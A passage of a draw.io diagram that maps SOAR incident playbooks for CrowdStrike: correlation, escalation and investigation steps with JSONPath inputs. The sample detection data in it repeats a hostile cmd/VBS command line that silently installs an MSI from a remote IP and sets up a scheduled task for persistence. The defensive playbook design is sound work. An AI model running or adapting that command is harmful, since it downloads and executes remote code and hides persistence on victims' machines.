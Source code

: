 <mxfile version="22.0.4" type="github">
  <diagram name="Page-1" id="wvW3ehxdYdoYtSaxa3fH">
    <mxGraphModel dx="1500" dy="820" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="NKeEgVbL9whLPdXC6YmX-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-1" target="NKeEgVbL9whLPdXC6YmX-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-1" value="Crowdstrike Event Correlation" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="150" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-2" target="NKeEgVbL9whLPdXC6YmX-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-2" value="Triggers&lt;br&gt;- On Event Ingestion" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="350" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-4" target="NKeEgVbL9whLPdXC6YmX-22">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="760" y="1680" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-4" value="Correlation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="550" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-10">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-16" value="True" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-11">
          <mxGeometry x="0.151" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-14" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-13">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-17" value="False" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-14">
          <mxGeometry x="0.042" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-8" value="Any Incident Linked?" style="rhombus;whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="950" y="1630" width="100" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-10" value="Added to the Related Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1209" y="1580" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-13" target="NKeEgVbL9whLPdXC6YmX-18">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-13" value="Check Artifacts" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1209" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-21" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-18" target="NKeEgVbL9whLPdXC6YmX-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-18" value="Escalate to Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1409" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-20" value="Passdown" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1609" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-23" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-22" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-22" value="Link Incident with Same ID&lt;br&gt;Command - Link to Related Event Incident" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="740" y="1650" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-24" value="" style="endArrow=none;html=1;rounded=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="820" y="1650" as="sourcePoint" />
            <mxPoint x="820" y="1580" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-28" value="&lt;h1&gt;API Response&lt;/h1&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;{&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &quot;Escalate Incidents&quot;: [&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &amp;nbsp; &quot;20230425-1573&quot;&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;}&lt;/p&gt;" style="text;html=1;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;strokeColor=default;fillColor=default;" vertex="1" parent="1">
          <mxGeometry x="730" y="1420" width="180" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-33" value="" style="endArrow=none;html=1;rounded=0;entryX=0.504;entryY=0.98;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1000" y="1780" as="sourcePoint" />
            <mxPoint x="1010.86" y="1730" as="targetPoint" />
            <Array as="points">
              <mxPoint x="1000" y="1750" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-45" value="&lt;h1&gt;Condition Type - Input&lt;/h1&gt;&lt;p&gt;{% set returnData = PlaybookData | jsonpath(&#39;$.[&quot;Link Incident with Same ID&quot;].returnData&#39;) | string_to_json_object%}&lt;/p&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{{returnData|jsonpath(&#39;$.[&quot;Escalate to Incidents&quot;]&#39;)|to_list|length &amp;gt; 0}}&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="905" y="1780" width="190" height="240" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-48" value="&lt;h1&gt;Data Formatter&lt;br&gt;&lt;/h1&gt;&lt;p&gt;{{{&quot;EscalateTo&quot;: PlaybookData | jsonpath(&#39;$.[&quot;Check Artifacts&quot;].returnData.Data[*].IncidentNo&#39;)|to_list}}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1300" y="1890" width="360" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-49" value="" style="endArrow=none;html=1;rounded=0;entryX=0.592;entryY=1.016;entryDx=0;entryDy=0;entryPerimeter=0;exitX=0.473;exitY=0;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-48">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1410" y="1839.04" as="sourcePoint" />
            <mxPoint x="1470.04" y="1790" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-50" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="140" y="1350" width="1600" height="740" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-52" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Nested Playbook For CrowdStrike&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="170" y="1370" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-56" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Incident Playbooks - Cross Stack Investigation&lt;br&gt;&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-57" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="90" y="60" width="8410" height="1160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-60" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-71">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-58" value="CrowdStrike Data Ingestion" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="120" y="370" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-66" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-59" target="NKeEgVbL9whLPdXC6YmX-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-59" value="Investigation-Initial Findings&lt;br&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-61" value="" style="endArrow=none;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-62" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="409.99" y="510.0" as="sourcePoint" />
            <mxPoint x="409.71" y="438.2" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-62" value="&lt;h1&gt;The Actual Data&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Host Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Source IP&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Command Line&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Event Time&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Data Source&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="285" y="500" width="250" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-68" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-65" target="NKeEgVbL9whLPdXC6YmX-67">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-65" value="Investigation-Initial Finding Behaviors&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-67" value="Investigation-Summary&lt;br&gt;Commands - Add Investigation Details" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="370" width="140" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-76" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-75">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-71" value="Get Command Lines&lt;br&gt;Data Formatter" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-73" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-74">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="410" y="260" as="sourcePoint" />
            <mxPoint x="460" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-74" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-78" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-75" target="NKeEgVbL9whLPdXC6YmX-77">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-75" value="Extract File Info&lt;br&gt;Commands - RSA_ExtractFileInfo" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-91" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-77" value="Crowdstrike Get File Hash&lt;br&gt;Commands - RSA_CrowdstrikeGetFileHash" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-79" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-80" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-79">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="660" y="270" as="sourcePoint" />
            <mxPoint x="770" y="240" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-81" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;amp;lt;nul &amp;amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="140" width="200" height="100" as="geometry" />
        </mxCell>
